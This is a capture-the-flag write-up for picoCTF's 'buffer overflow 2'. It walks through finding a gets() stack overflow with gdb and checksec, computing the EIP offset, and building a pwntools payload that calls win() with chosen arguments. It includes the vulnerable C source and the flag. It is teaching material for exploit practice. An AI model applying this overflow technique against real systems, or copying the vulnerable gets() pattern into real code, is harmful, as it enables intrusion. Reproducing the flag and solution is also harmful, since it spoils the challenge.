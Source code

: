 # buffer overflow 2
#### Write-up author: [jon-brandy](https://github.com/jon-brandy)
## DESCRIPTION:
Control the return address and arguments This time you'll need to control the arguments to the function you return to! 
Can you get the flag from this [program?](https://github.com/jon-brandy/CTF-WRITE-UP/blob/f4988ca3e1525733628e10f39c3873e83589c97f/Asset/buffer%20overflow%202/vuln) 
You can view source [here](https://github.com/jon-brandy/CTF-WRITE-UP/blob/f4988ca3e1525733628e10f39c3873e83589c97f/Asset/buffer%20overflow%202/vuln.c). And connect with it using `nc saturn.picoctf.net 62608`.
## HINT:
1. Try using GDB to print out the stack once you write to it.
## STEPS:
1. First, download both files given.
2. Next let's check the program file by run `file vuln`.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/188063140-c8571087-3b43-4285-a497-fc02f80176ac.png)

3. Since it's not stripped we can see the function in gdb then, also notice this time the file is 32 bit.
4. But i want to check the protector available here, so let's run `checksec --file vuln`.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/188063279-a839274b-0c72-46ac-adad-983d54e0aaf2.png)

5. Great **no canary** found and **no pie**.
6. Now let's analyze the source code first.

> VULN.C  

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

7. Found the vuln here because of the `gets()` function.

![image](https://user-images.githubusercontent.com/70703371/188063545-c5fbdb3d-339a-4b33-b167-e14efef15c09.png)

8. I think this challenge is quite similiar to the previous one, but based from the description we need to control the arguments too not just the return address.
9. The win function caught my attention, because of the condition we must to fullfill to get the flag. 

![image](https://user-images.githubusercontent.com/70703371/188063795-b1c206bc-c2fd-4e19-87d4-fd8cfdddf37a.png)

> NOTES

```
arg1 must be -> 0xCAFEF00D
arg2 must be -> 0xF00DF00D
```

10. Anyway let's get the **win()** function's address first by run `gdb`.

> STEPS

![image](https://user-images.githubusercontent.com/70703371/188064249-f34a5f04-ef34-424a-8a08-92665044f17d.png)

![image](https://user-images.githubusercontent.com/70703371/188064277-23c6d1b1-9a53-4851-93b1-33c2bd3b7662.png)

```
win() address -> 0x8049296
```

11. Now let's run the program.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/188069254-a10261de-a5f7-4413-8b33-715daec8e591.png)

12. Let's try to input the same size as the buffer -> 100.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/188069350-40a8a62d-e1fe-444f-9775-0c9da587e507.png)

13. Let's add another 4 bytes.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/188069415-4e7143ae-2d77-42f7-92b1-a5e6a9d800a7.png)

14. Add another 4 bytes again.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/188069527-ecac073e-59e2-469a-adee-6a51c025a3e0.png)

15. Great the program crashed.
16. But at this point we didn't know did we just change the return address or not. 
17. So we need to find the `offset` of the **EIP**.

> NOTES

```
A standard buffer overflow is used to overwrite the EIP. It is usually possible to predict an appropriate EIP value that will land execution within 
the NOPs which will “execute” until the payload (usually shellcode) is encountered. 
• The shellcode then spawns a process to download and execute malware.
```

18. To found the offset let's make cyclic pattern with the 1024 as the size.

> I USED GDB FOR THIS STEPS

![image](https://user-images.githubusercontent.com/70703371/188070976-129eefdb-9fe2-46ad-a827-2d5a912b0cb1.png)

> RUN THE PROGRAM & PASTE THE STRINGS

![image](https://user-images.githubusercontent.com/70703371/188071041-581dbc79-7d65-4f2c-85de-aa39787eb020.png)

> FIND THE OFFSET OF $EIP

![image](https://user-images.githubusercontent.com/70703371/188071166-839f09c6-19f8-4110-9f99-e1ad39d9751d.png)

> FOUND AT 112

![image](https://user-images.githubusercontent.com/70703371/188071195-84200e05-dbb6-4d4e-a52f-11bb03a218ae.png)

19. Next we need to fint the address of the main function too, because after we called the `win()` function, following it at the stack is going to be the return address for that function. So for the safe way to do this i add the address for the main function for the payload.

> MAIN FUNCTION'S ADDRESS

![image](https://user-images.githubusercontent.com/70703371/188077884-95401326-e39c-49fb-95de-b5d6a9be183e.png)

20. For the final solution, i made a script in python using **pwntools**:

> PAYLOAD.PY

```py
import os
from pwn import *

os.system('clear')

arg1 = 0xCAFEF00D
arg2 = 0xF00DF00D
win = 0x8049296
main = 0x8049372

sh = remote('saturn.picoctf.net', 62805)

sh.recvuntil('\n')
p = b'A' * 112 
p += p32(134517398) # the win function decimal
p += p32(134517618) # the main function decimal
p += p32(3405705229) # arg1 decimal representation
p += p32(4027445261) # arg2 decimal representation

sh.sendline(p)

sh.interactive()

```

> OUTPUT

![image](https://user-images.githubusercontent.com/70703371/188078068-83fb7997-2fc2-4d7b-a6db-3bbc30f7282e.png)


21. Finally we got the flag!

## FLAG

```
picoCTF{argum3nt5_4_d4yZ_31432deb}
```
## REFERENCES:

```
https://www.sciencedirect.com/topics/computer-science/extended-instruction-pointer
```
